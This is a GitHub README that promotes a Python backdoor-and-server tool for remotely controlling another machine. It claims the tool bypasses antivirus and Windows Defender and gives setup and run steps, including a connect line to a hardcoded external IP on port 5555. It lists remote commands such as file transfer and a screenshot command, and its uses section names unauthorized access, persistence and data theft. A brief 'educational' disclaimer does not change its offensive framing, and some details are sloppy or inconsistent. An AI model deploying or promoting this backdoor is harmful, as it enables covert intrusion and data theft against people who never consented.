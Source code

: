 ## Backdoor-And-Server 🖥️🔍

This is a simple server-client Python application that allows you to remotely execute basic commands on the server from the backdoor. 

We can use this project to establish a connection between a server and backdoor , this code is personally crafted and succesful in bypassing the antivirus and windows defender 🍴✨



## Warning ⚠️☠️

**This project is intended for educational and research purposes only.**

Please use this code responsibly and only on devices and systems for which you have explicit authorization.

The author of this project are not responsible for any misuse or illegal activities involving this software.


## Installation Process 📥

First, clone the repository and navigate to the Backdoor-And-Server directory:

```
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

Next, install the requrements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install pyautogui
```
For **Backdoor.py**
```
$ pip3 install tqdm
```

## Pre Execution ⏮️

On line number **120** of **server.py** file
```
36. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx'
```
On line number **160** of **backdoor.py** file
```
160. s.connect(('68.183.89.11',5555))  #replace 'username' 'password'
```

## Execution 🏃‍♂️

Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands

Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 💡

Keyloggers can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.
